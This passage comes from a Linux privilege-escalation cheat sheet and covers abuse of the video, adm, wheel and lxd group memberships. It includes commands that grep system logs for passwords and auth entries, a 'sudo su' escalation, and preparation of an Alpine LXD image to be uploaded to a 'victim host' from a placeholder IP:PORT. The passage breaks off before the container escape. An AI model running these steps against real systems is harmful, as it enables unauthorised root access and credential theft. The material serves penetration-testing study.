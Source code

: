 Then open screenshot.raw with Gimp and specify the Width and Height

<https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#video-group>

For more information about that technique refer to [T1113 - Screen Capture](https://attack.mitre.org/techniques/T1113/)

##### ADM Group

This group allows you to view logs in /var/log.

```bash
ls -alhR /var/log                       # Display all files within /var/log
zgrep "authen" auth.log*                # Search out "authen" within auth.log compressed file
zgrep "pass" auth.log*                  # Search out "pass" within auth.log compressed 
zgrep "authen" access.log*              # Search out "authen" within access.log compressed file
zgrep "pass" access.log*                # Search out "pass" within access.log compressed file
grep -d recurse "pass" /var/log/*       # Search out "pass" within all files in /var/log
```

Here are some interesting logs:

- **/var/log/faillog**: Failure log database
- **lpr.log**: LP Print Service logs
- **var/log/mysql.**: MySQL logs

##### Wheel Group

Any user that belongs to the group wheel can execute anything as sudo

```bash
cat /etc/sudoers
sudo su
```

##### LXD & LXC

**Linux Container (LXC)** are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine.
It creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

**Linux daemon (LXD)** is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.

When you are part of the LXD group, you can initialize the LXD process

```bash
lxd init # Initialize the LXD the process
# !!! When the "Do you want to configure a new storage pool?" appears, enter yes
# On your own machine get distrobuilder which is a system container image builder for LXC and LXD
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools # Install the requirements on your own machine
go get -d -v github.com/lxc/distrobuilder # Clone distrobuilder repo
cd $HOME/go/src/github.com/lxc/distrobuilder # Get to the make folder for distrobuilder
make # Make it

# Prepare the creation of alpine (still on your own computer)
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml # Create the LXD container using distrobuilder
# You will have then a lxd.tar.xz file and a rootfs.squashfs file

# Upload them to the victim host
wget http://IP:PORT/lxd.tar.xz
```
